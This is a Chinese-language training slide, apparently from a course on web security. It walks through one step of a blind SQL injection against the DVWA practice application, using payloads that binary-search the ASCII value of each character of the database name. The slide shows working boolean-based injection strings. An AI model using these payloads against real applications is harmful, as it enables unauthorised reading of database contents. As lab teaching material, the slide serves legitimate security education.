

SQL注入漏洞

第三步：猜解当前数据库名
输入1' and ascii(substr(database(),1,1))>97 #,
显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；
输入1' and ascii(substr(database(),1,1))<122 #，
显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；
输入1' and ascii(substr(database(),1,1))<109 #，
显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；
输入1' and ascii(substr(database(),1,1))<103 #，
显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；
输入1' and ascii(substr(database(),1,1))<100 #，
显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；
输入1' and ascii(substr(database(),1,1))>100 #，
显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。
…重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。